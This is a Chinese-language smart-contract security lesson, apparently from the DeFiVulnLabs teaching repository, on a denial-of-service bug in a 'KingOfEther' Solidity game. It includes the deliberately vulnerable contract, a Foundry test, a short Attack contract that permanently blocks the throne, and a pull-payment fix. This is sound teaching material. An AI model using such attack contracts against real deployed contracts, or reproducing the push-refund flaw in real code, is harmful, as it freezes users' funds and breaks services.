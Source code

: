 # 拒绝服务  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  
**名称：** 拒绝服务  
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给最后一个“国王”。   
然而，这个机制是有漏洞的。攻击者的合约（这里称为Attack合约）可以成为王者，然后使回退函数回滚或消耗超过规定的gas限制，每当KingOfEther合约试图将以太币返回给最后一个国王时，claimThrone函数就会失败。  


**修复意见：**  
使用“拉取”支付模式，防止这种情况的一种方法是使用户能够提取他们的以太币，而不是将其发送给他们。  
**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26   
**KingOfEther合约：**  
```
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  
```
// 此函数测试拒绝服务(DoS)攻击场景
function testDOS() public {
    // “Alice”和“Bob”是从以太坊虚拟机分配的地址值。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // Alice的地址调用一些prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 攻击合约被调用，用3个以太币攻击KingOfEtherContract合约
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEtherContract合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期该过程需要回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 对KingOfEther合约发起DoS攻击的攻击合约
contract Attack {
    KingOfEther kingOfEther;

    // 初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```  
**红框：在攻击漏洞后，没有人能够赢得这个游戏  
![Alt text](image-12.png)

